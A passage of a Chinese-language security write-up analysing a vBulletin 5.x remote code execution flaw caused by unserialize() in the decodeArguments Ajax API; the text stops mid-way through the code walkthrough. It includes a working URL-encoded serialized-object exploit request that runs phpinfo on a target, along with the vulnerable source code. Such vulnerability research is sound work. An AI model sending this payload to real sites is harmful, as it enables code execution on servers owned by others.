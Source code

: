 # unserialize() 实战之 vBulletin 5.x.x 远程代码执行

**Author: RickGray (知道创宇404安全实验室)**

近日，vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用`unserialize()`对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用[原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)提供的 Payload 可以直接在受影响的站点上执行`phpinfo(1)`：

![](http://drops.javaweb.org/uploads/images/9a9dab0b95937138a5f7b79382fdf7ec1743a774.jpg)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

0x00 反序列化触发点跟踪
=====

虽然此次漏洞`unserialize()`函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

```
http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

```

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将`ajax/api/hook/decodeArguments`作为路由参数`$_REQUEST['routestring']`传递给地址路由处理过程。因其符合`ajax/api/[controller]/[method]`的 Ajax API 请求路由格式，会再调用`vB5_Frontend_ApplicationLight`实例中的`handleAjaxApi()`函数来进行相应的模块加载并调用处理函数：

```
protected function handleAjaxApi()
{
    $routeInfo = explode('/', $_REQUEST['routestring']);    

    if (count($routeInfo) < 4)
    {
        throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
    }
    $params = array_merge($_POST, $_GET);
    $this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}

```

请求的`ajax/api/hook/decodeArguments`会实例化`hook`类然后调用`decodeArguments()`函数，原文中所提及的触发点就在此处：

```
public function decodeArguments($arguments)
{
    if ($args = @unserialize($arguments))
    {
        $result = '';

        foreach ($args AS $varname => $value)
        {
            $result .= $varname;

```
